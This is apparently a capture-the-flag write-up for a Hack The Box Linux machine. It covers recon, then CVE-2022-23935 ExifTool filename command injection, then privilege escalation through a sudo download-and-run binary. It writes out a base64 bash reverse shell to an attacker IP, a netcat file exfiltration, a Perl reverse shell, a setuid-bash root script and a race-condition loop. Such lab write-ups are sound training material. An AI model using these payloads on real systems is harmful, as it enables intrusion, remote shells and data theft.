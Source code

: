 ## 📌 Box Info
- **OS**: [Linux](Linux)
- **Difficulty**: [Medium](Medium)
- Platform: [HTB](HTB)
- Prep: [OSCP](OSCP.md)

---

## 🔍 Recon

### Nmap Scan
```bash
nmap -p- --min-rate 10000 10.10.11.197
nmap -p 22,80 -sCV 10.10.11.197
```
- Open Ports: 22 [SSH](SSH), 80 [HTTP](HTTP.md)
- Redirects to: `http://eforenzics.htb/`

### Hosts File
```
10.10.11.197 eforenzics.htb
```

### Feroxbuster
```bash
feroxbuster -u http://eforenzics.htb -x php,html
```
- Found: `/upload.php`, `/service.html`, various assets

---

## 💻 Shell as www-data

### CVE-2022-23935 - ExifTool Filename Injection
- ExifTool version: 12.37
- Exploit by setting filename to a command ending in `|`

### Example Payload:
```bash
filename: ping -c 1 10.10.14.6|
```
Confirm RCE using tcpdump or Burp.

### Reverse Shell
```bash
# Encode reverse shell to avoid special chars
echo 'bash -i &> /dev/tcp/10.10.14.6/443 0>&1' | base64 -w0

# Upload using filename set to: bash -c {echo,<base64>}|base64 -d|bash|
```
Receive with netcat:
```bash
nc -lnvp 443
```

### Shell Upgrade
```bash
script /dev/null -c bash
<Ctrl-Z>
stty raw -echo; fg
reset
```

---

## 👤 Shell as smorton

### Find Sensitive Files
```bash
find / -user smorton 2>/dev/null
```
Found: `/usr/local/investigation/Windows Event Logs for Analysis.msg`

### Crontab
```bash
crontab -l
```
Contains cleanup script, broken by immutable log file `analysed_log`.

### Exfiltrate `.msg`
```bash
nc -lnvp 443 > analysis.msg
cat analysis.msg | nc 10.10.14.6 443
```

### Analyze Email
```bash
msgconvert analysis.msg --mbox analysis.mbox
mutt -f analysis.mbox
# Save attachment: evtx-logs.zip
unzip evtx-logs.zip
```

### Convert EVTX to JSONL
```bash
evtx_dump security.evtx -o jsonl -t 1 -f security.json
```

### JQ Analysis
- Identify failed login with password in username field:
```bash
jq -r 'select(.Event.System.EventID==4625) | .Event.EventData.TargetUserName' security.json
```
Found password: `Def@ultf0r3nz!csPa$$`

### SSH as smorton
```bash
sshpass -p 'Def@ultf0r3nz!csPa$$' ssh smorton@eforenzics.htb
```

---

## 🧠 Shell as root

### Sudo Access
```bash
sudo -l
```
Can run: `/usr/bin/binary` as root

### Binary Behavior
- Downloads file from URL (arg1)
- Saves as `lDnxUysaQn` (arg2)
- Runs with: `perl ./lDnxUysaQn`
- Cleans up the file

### Option 1: Perl Reverse Shell
```perl
use Socket;
$i="10.10.14.6";$p=443;
socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));
if(connect(S,sockaddr_in($p,inet_aton($i)))) {
    open(STDIN,">&S"); open(STDOUT,">&S"); open(STDERR,">&S"); exec("sh -i");
}
```
Run:
```bash
sudo binary http://10.10.14.6/shell.pl lDnxUysaQn
```

### Option 2: Bash with Shebang
```bash
#!/bin/bash
cp /bin/bash /tmp/rootbash
chmod 4777 /tmp/rootbash
```
Run:
```bash
sudo binary http://10.10.14.6/root.sh lDnxUysaQn
/tmp/rootbash -p
```

### Option 3: Race Condition
```bash
# One terminal:
while :; do if [ -f lDnxUysaQn ]; then mv -f lDnxUysaQn garbage; cp -f 0xdf.sh lDnxUysaQn; sleep 1; rm lDnxUysaQn; fi; done

# Second terminal:
sudo binary http://10.10.14.6/race lDnxUysaQn
```

---

## 🏁 Flags
- User: `fe330173************************`
- Root: `e9f2ff77************************`

---

## 🧩 Notable Tools Used
- [ExifTool](https://exiftool.org/)
- [evtx_dump](https://github.com/omerbenamram/evtx)
- [mutt](http://www.mutt.org/), [msgconvert](https://metacpan.org/pod/distribution/Email-Outlook-Message/bin/msgconvert)
- [jq](https://stedolan.github.io/jq/), [feroxbuster](https://github.com/epi052/feroxbuster)